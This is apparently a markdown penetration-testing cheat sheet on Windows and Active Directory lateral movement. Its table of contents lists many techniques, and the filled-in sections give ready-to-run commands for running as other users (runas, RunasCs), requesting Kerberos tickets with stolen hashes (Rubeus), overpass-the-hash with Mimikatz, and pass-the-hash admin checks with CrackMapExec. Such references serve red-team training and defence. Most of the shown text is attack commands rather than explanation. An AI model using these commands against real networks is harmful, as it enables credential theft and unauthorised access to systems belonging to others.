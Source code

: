 # Lateral Movement
* [General](#General)
* [Check Local Admin Access](#Check-Local-Admin-Access)  
* [Pass The Hash](#Pass-The-Hash)
  * [Overpass The Hash](#Overpass-The-Hash)
* [Lateral Movement Techniques](#Lateral-Movement-Techniques)
  * [PSSession](#PSSession) 
  * [PSExec](#PSExec)
  * [SC.exe](#SC.exe)
  * [Schtasks.exe](#schtasks.exe)
  * [AT](#AT)
  * [WMI](#WMI)
  * [Poisonhandler](#Poisonhandler)
  * [RDP](#RDP)
  * [ChangeServiceConfigA](#ChangeServiceConfigA)
  * [WinRM](#WinRM)
  * [DCOM](#DCOM)
  * [Named Pipes](#Named-Piped)
  * [Powershell Web access](#Powershell-Web-access)
  * [NTLM Relaying](#NTLM-Relaying)

## General
### Running stuff as context of other user
#### Runas other user
```
runas /netonly /user:<DOMAIN>\<USER> cmd.exe
runas /netonly /user:<DOMAIN>\<USER> powershell.exe
```

#### Better runas
- https://github.com/antonioCoco/RunasCs
```
.\RunasCs.exe <USER> <PASSWORD> -d <DOMAIN> <COMMAND>

Invoke-RunasCs -Username <USER> -Password <PASSWORD> -Domain <DOMAIN> -Command <COMMAND>
```

#### Rubeus request tgt
```
.\rubeus.exe asktgt /user:<USER> /domain:<DOMAIN> /dc:<DC IP> /rc4:<HASH>
```

#### Mimikatz overpass the hash
```
mimikatz.exe sekurlsa::pth /domain:<DOMAIN> /user:<USER> /rc4:<HASH>
```

## Check Local Admin Access
#### Crackmapexec
```
cme smb <COMPUTERNAME> -d <DOMAIN> -u <USER> -H <NTLM HASH>
cme winrm <COMPUTERNAME> -d <DOMAIN> -u <USER> -H <NTLM HASH>
cme mssql <COMPUTERNAME> -d <DOMAIN> -u <USER> -H <NTLM HASH>
cme rdp <COMPUTERNAME> -d <DOMAIN> -u <USER> -H <NTLM HASH>
```
